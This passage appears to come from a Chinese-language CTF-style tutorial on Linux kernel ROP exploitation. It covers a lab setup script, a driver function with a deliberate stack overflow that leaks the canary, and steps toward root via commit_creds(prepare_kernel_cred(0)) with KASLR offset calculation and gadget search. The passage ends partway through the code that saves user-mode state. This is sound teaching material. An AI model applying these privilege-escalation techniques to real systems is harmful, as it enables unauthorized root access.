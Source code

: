     echo /sbin/mdev > /proc/sys/kernel/hotplug  # 支持热拔插
    /sbin/mdev -s

    cat /proc/kallsyms > /tmp/kallsyms  # 当/proc/sys/kernel/kptr_restrict=1时，普通用户不能通过/proc/kallsyms读取函数地址，为减少难度直接将kallsyms内容写入临时目录
    insmod rop.ko   # 目标驱动

    chmod 777 /dev/povcfe_dev
    chmod 777 /dev/rop_dev  

    setsid cttyhack setuidgid 1000 sh
    ```

4. 审计代码，可以发现dangerous函数存在明显的栈溢出漏洞(降低难度直接泄漏canary)
    ``` c
    void dangerous(size_t num)
    {
        char overflow[0x10] = {0};
        printk(KERN_INFO "canary is 0x%lx", *((size_t *)overflow + 2));
        memcpy(overflow, kernel_buf, num);
        printk(KERN_INFO "%s", overflow);
    }   
    ```

5. 利用思路  
    + Canary通过printk泄露
    + NX使用rop绕过
    + 读取 /tmp/kallsyms的startup_64(获得内核代码加载基地址，用于定位ROPgadget在内存中的真实地址)
    + 读取 /tmp/kallsyms的commit_creds, prepare_kernel_cred，获得目标内核函数地址

### 二. ROP链构造

+ 内核执行commit_creds(prepare_kernel_cred(0))  
    1. 通过/tmp/kallsyms获得 commit_creds() prepare_kernel_cred() 函数地址

    ![kallsyms](../../kernel_rop1/kallsyms.png)

    2. 执行 cat tmp/kallsyms | grep startup_64, 如果startup_64不等于0xffffffff81000000, 即内核开启kalsr防护, startup_64与0xffffffff81000000 的差值即为内核基地址偏移(很多发行版默认不打开kalsr, 利用就比较简单了)
    
    ![startup_64](../../kernel_rop1/startup_64.png)

    3. 利用ROPgadget获得vmlinux的所有gadget片段(如果效果不理想可换用ropper)  
    ```
    ROPgadget --binary vmlinux > rop_gadget
    ```  
    根据所需在rop_gadget中搜索(因为程序开启kalsr，所以 真实地址 = rop_gadget地址 + 基地址偏移)  

+ 返回用户态  
    1. 进入内核前，保存用户态数据
        ``` c
        size_t user_cs, user_ss, user_rflags, user_sp;
        void save_status()
        {
            __asm__("mov user_cs, cs;"
                    "mov user_ss, ss;"
                    "mov user_sp, rsp;"
                    "pushf;"
                    "pop user_rflags;"
                    );
        }
        ```
